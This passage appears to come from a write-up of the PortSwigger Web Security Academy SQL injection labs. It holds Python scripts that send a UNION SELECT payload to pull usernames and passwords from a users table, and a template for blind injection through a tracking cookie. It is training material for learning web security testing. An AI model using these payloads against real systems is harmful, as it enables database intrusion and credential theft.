 ```python
params = {
	'category':"' UNION SELECT concat(username,password),NULL FROM users--"
}
url = f'https://{HOST}.web-security-academy.net/filter'
s = requests.Session()

r = s.get(url, headers=headers, proxies=proxies, verify=False, params=params)
if re.search(r"Internal Server Error", r.text):
	print("Query failed")
else:
	print(r.text)
```

## Lab 10: Retrieve values in a single column

Same as lab 9, just use the second column to return data instead.

## Lab 11: Blind SQLI with Conditional Responses

This lab has a tracking cookie which makes it different from the other labs. When adding a `'` character to the cookie, it shortens the response, as the `Welcome back!` message is no longer printed.

![](../../.gitbook/assets/sql-injection-portswigger-writeup-image-4.png)

From this, I could create a template script to use:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aa80019039dbe768097177d00ff001d'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
payload = ""
cookies = {
	'session': f'{COOKIE}',
	'TrackingId':'mAtlrZn449A7Xotk' + payload
}

url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()

r = s.get(url, cookies=cookies, proxies=proxies, verify=False)
```
